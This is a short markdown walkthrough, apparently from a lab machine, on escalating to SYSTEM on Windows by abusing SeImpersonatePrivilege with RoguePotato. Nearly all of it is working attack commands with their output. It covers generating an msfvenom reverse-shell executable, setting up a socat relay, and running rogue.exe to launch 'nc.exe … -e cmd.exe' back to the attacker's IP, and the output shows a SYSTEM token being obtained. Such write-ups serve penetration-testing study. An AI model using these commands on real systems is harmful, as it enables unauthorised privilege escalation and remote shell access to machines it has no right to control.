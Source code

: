 ## how to exploit SeImpersonatePrivilege using a juicePotato binary

with roguepotato binary we can use get with this approach here, just make this binary is present on the target machine and a location that is writable oky hackerB0y.

## requirements 
1. we need to generate a binary on our machine with msfvenom
command: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.29 LPORT=4444 -a x64 --platform Windows -f exe -o shell.exe                           
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe

```

2.  we need to run this command on our machine

    command: sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
```
┌──(alienx㉿alienX)-[~/Desktop/MACHINES/REMOTE]
└─$ sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.10.180:9999
[sudo] password for alienx: 
2024/04/13 09:09:26 socat[32866] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:09:26 socat[32867] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:10:21 socat[32870] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer
2024/04/13 09:11:28 socat[32948] E read(5, 0x5608bdf2e000, 8192): Connection reset by peer

```

3.  we need to run this command on our target machine
    command: rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999  
```
C:\Users\Public\desktop>rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                      
rogue.exe -r 10.10.16.29 -e "c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe" -l 9999                                                                                                                                              
[+] Starting RoguePotato...
[*] Creating Rogue OXID resolver thread
[*] Creating Pipe Server thread..
[*] Creating TriggerDCOM thread...
[*] Listening on pipe \\.\pipe\RoguePotato\pipe\epmapper, waiting for client to connect
[*] Calling CoGetInstanceFromIStorage with CLSID:{4991d34b-80a1-4291-83b6-3328366b9097}
[*] Starting RogueOxidResolver RPC Server listening on port 9999 ... 
[*] IStoragetrigger written:104 bytes
[*] SecurityCallback RPC call
[*] ResolveOxid2 RPC call, this is for us!
[*] ResolveOxid2: returned endpoint binding information = ncacn_np:localhost/pipe/RoguePotato[\pipe\epmapper]
[*] Client connected!                                      
[+] Got SYSTEM Token!!!                                    
[*] Token has SE_ASSIGN_PRIMARY_NAME, using CreateProcessAsUser() for launching: c:\users\public\desktop\nc.exe 10.10.16.29 4444 -e cmd.exe
[+] RoguePotato gave you the SYSTEM powerz :D

```
